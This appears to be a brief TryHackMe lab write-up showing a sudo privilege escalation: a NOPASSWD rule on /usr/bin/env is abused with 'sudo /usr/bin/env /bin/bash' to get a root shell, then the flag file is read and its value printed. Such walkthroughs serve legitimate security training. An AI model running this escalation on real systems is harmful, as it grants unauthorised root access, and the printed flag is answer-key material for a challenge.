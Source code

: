 # Info
sudo -l

(root) NOPASSWD: /usr/bin/env

sudo /usr/bin/env /bin/bash

# Flag
cat /root/flag3.txt
``THM{D1ff3r3nt_3nv1ronments_874112}``